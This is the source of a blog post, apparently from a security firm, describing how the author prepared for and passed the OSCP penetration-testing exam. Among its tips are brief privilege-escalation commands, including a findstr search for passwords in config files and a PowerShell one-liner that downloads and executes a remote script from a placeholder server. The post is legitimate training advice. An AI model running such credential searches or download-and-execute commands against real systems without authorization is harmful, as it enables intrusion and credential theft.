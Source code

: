 ```yaml
---
slug: oscp-journey/
title: How to Pass the OSCP
date: 2019-12-04
category: opinions
subtitle: The meaning of Try Harder
tags: challenge, ethical-hacking, pentesting, cybersecurity, training, exploit
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/cover_dcbd71.webp
alt: Photo by Clint Patterson on Unsplash
description: The OSCP exam is one of the hardest certifications out there for pentesters. Here we show you how you can prepare yourself to do your best on it.
keywords: OSCP, Business, Information, Security, Protection, Hacking, Best Practices, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, OSCP - Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/dYEuFB8KQJk
---
```


Before taking the exam,
I already had years of work experience as a penetration tester
at `Fluid Attacks`.
So,
I already knew how to perform a [penetration test](../../solutions/penetration-testing/)
and how to build a technical report of my findings.
However,
if you don't have any work experience on the field
or you're just starting out,
this post may help you pass your exam.

The most important phase on a penetration test is scanning. Here you
will use tools to get information about your target, such as its
operating system, open ports, the services running on those ports and
their versions, whether they have public vulnerabilities or not, and
whether there is a public exploit for those vulnerabilities. Since
metasploit is restricted to only **one** machine (this includes the
auxiliary modules too) you need to be familiar with tools such as
the following:

- [Nmap](https://nmap.org/)

- [Dirbuster](https://tools.kali.org/web-applications/dirbuster)

- [Nikto](https://tools.kali.org/information-gathering/nikto)

- [Gobuster](https://tools.kali.org/web-applications/gobuster)

- [Dirsearch](https://github.com/maurosoria/dirsearch)

- [enum4linux](https://tools.kali.org/information-gathering/enum4linux)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

The only way to do this is by using them continuously until you develop
a solid enumeration strategy. To help you with this there are services like
[hackthebox](https://www.hackthebox.eu/) and
[vulnhub](https://www.vulnhub.com/), where you can find vulnerable
machines on which to test your skills.

<div class="imgblock">

![owned-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/hackthebox_efxh5c.webp)

</div>

Once there you can also practice the *gaining access* phase and your
privilege escalation strategies with multiple operating systems and
vulnerabilities that resemble the ones in real-life scenarios. You would
be surprised by how many times I've encountered a vulnerability on
hackthebox first and then on a real-life service. The tools and
resources that I got the most from for privilege escalation were
these:

- [linenum](https://github.com/rebootuser/LinEnum)

- [windows exploit
  suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

- [JAWS](https://github.com/411Hall/JAWS)

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

- [g0tmilk Linux privesc
  blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [absolomb Windows privesc
  blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

I recommend hacking all the live machines that you can without any help
and getting some points on the platform. Doing this helps you get used to
the tools and increases your confidence in using them when you take the
exam. If you can't hack a machine and it gets removed, you can check the
walkthrough by
[Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and
learn new things. You can learn stuff from these videos even for
machines you did root. Do this for at least one month or, if you have no
work experience whatsoever, two months.

## Attacking the lab

I had a month of lab access, so the approach I took to the course and
the lab was to split them by days. One day concentrating on the guide and
taking notes of things that I didn't know, and another day for attacking
the lab machines.

When you are working on the machines, also work on your time management
skills. Do not spend too much time on one machine when you can try
another one. Time management becomes very important when you are taking
your exam.

Before your lab access ends, be sure that you fully understand how to do
a **buffer overflow**. Take notes of every step, copy all the commands
that you need, and also how to get the **return address**.

## Post lab

Here you want to gather the most information about the last two steps.
We are going back to hackthebox but instead of doing the active
machines we are going to do the ones from [this
list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0)
(there are also some from vulnhub).

<div class="imgblock">

![oscp-like-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330963/blog/oscp-journey/url-oscp_lgqddx.webp)

</div>

Try to conquer those machines without the aid of walkthroughs.
When you finish one, look at these walkthroughs to check whether there
is another way in; if so, then also practice it.

The day before the exam, I did nothing. Your body and mind need to rest
and you should not try to cram for the test. Eat your favourite foods
whatever they may be. Treat yourself to a well-deserved dessert and watch
movies and series that you perhaps ignored when you focused on your
studies. The point is to de-stress so you're fresh when you take the
exam.

## The exam

The task is to gain administrative access to the machines in the
network. There are five machines, each is worth a certain number of points
if you complete it, and you need at least **70** points to pass the exam.
The machine points are distributed as follows:

- 25 points buffer overflow

- 25 points machine

- Two 20 points machines

- 10 points machine

I started with the 25 points BoF machine while I scanned all the other
ones. I did this because I knew that I could follow the guide
step-by-step and get the BoF points. My scanning strategy was to run
`nmap` with these options:

**nmap with options.**

``` bash
nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
```

Also, I pinged the machine in order to view its operative system. If the
TTL (Time to Live) is 64 then it is a Linux machine, and if it is
128 then it's a Windows machine. When the port scan finished I
checked every web service and used a web crawler like `dirbuster` or
`dirsearch`.

After finishing the BoF machine, I started hacking the machines with
all the information that I had collected. I ended up going down rabbit
holes trying to gain admin privileges on the 25-pointer machine. Because
of the time the 25-point machine was taking, I quickly decided to switch
to both the 20-point and finally, the 10-pointer machine.

For privilege escalation I first checked the operative system version
and kernel, this can be done by running:

``` bash
uname -a #linux
> systeminfo #windows
```

If it was Linux I checked for `sudo` rights running processes, and for
`SUID` executables. There is a tool named linenum but it's too verbose
and I like to search for things manually.

``` bash
sudo -l
ps -aux
find / -perm -u=s -type f 2>/dev/null
```

If it was Windows, I checked for the `Groups.xml` file (usually it has
administrative user and password information there), installed software
and tried to use `powershell` to run Windows exploits. When it comes
to Windows, most of the time, the way of escalating privileges is
through a vulnerability in the OS version or in an installed program
version.

``` bash
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

I finished my test in less than 10 hours with 4 admins and 1 user for a
little more than **75** total points. The mistake that I made was to be
lazy with my screenshots, so I needed to redo all the machines to get
all of my evidences. **Do not do this\!** The next day I did my
technical documentation. The advice here is to put everything that you
did from the *scanning* phase up to the *privilege escalation* phase.
Also, if you modified an exploit (even if is only one line), add it to
the report and mark what you modified.

<div class="imgblock">

![oscp-win](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/oscp-win_llivv3.webp)

</div>

## Be prepared and do your best

The OSCP is a difficult certification, but it's not impossible. The
steps before the lab are going to help you get the most out of the
course and to establish your own routine when it comes to doing a
penetration test. The enumeration and scanning phases are the most
important ones in the whole process because you can spend hours going
down rabbit holes if you do not do these steps properly. Mental
toughness is needed to pass this test, so be prepared to think quickly
and creatively, daisy-chaining vulnerabilities, and rest when you need
it. The discord groups of hackthebox and OFFSEC are at your disposal to
answer your questions or give you hints where you need them. Try harder.
